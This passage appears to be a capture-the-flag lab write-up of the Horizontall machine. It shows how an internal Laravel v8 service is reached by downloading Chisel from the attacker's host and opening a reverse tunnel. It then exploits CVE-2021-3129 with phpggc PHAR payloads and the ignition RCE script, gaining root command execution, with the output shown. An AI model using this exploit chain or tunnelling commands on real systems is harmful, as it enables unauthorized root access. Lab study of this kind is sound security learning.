 Port 8000 seems to be running Laravel v8:

```shell
curl -S 127.0.0.1:8000

[redacted]
<div class="ml-4 text-center text-sm text-gray-500 sm:text-right sm:ml-0">
    Laravel v8 (PHP v7.4.18)
</div>
```

So I forwarded that port to my machine by creating a tunnel using [Chisel 🦦](/notes/tools/Chisel.md):

```shell
# In my machine I executed:
python3 -m http.server 8090


# In horizontall machine I executed:
cd /dev/shm
wget http://10.10.14.28:8090/chisel_1.10.1_linux_amd64
chmod +x chisel_1.10.1_linux_amd64

# Now in my machine I executed:
./chisel_1.10.1_linux_amd64 server -p 8001 --reverse

# Finally in the horizontall machine I executed:
# 9000 is the port on the victim's machine which is using chisel for the connection
./chisel_1.10.1_linux_amd64 client 10.10.14.28:8001 R:9000:localhost:8000
```

Now if we input `http:localhost:9000` in our browser, we can see the hidden service:

![](Pasted%20image%2020241219105756.png)

So I decided to search for "*Laravel v8 exploit*" and found [CVE-2021-3129](https://github.com/ambionics/laravel-exploits?tab=readme-ov-file)
- You've got a nice blog post in [ambionics.io](https://www.ambionics.io/blog/laravel-debug-rce)

I need to download [phpggc](https://github.com/ambionics/phpggc) which is a library of PHP unserialize() payloads along with a tool to generate them, from command line or programmatically.

Then I executed:

```shell
mkdir phpggc && cd phpggc && git clone https://github.com/ambionics/phpggc.git

php -d'phar.readonly=0' ./phpggc --phar phar -o /tmp/exploit.phar --fast-destruct monolog/rce1 system id

cd..
python3 laravel-ignition-rce.py http://localhost:9000 /tmp/exploit.phar

+ Log file: /home/developer/myproject/storage/logs/laravel.log
+ Logs cleared
+ Successfully converted to PHAR !
+ Phar deserialized
--------------------------
uid=0(root) gid=0(root) groups=0(root)
--------------------------
+ Logs cleared
```
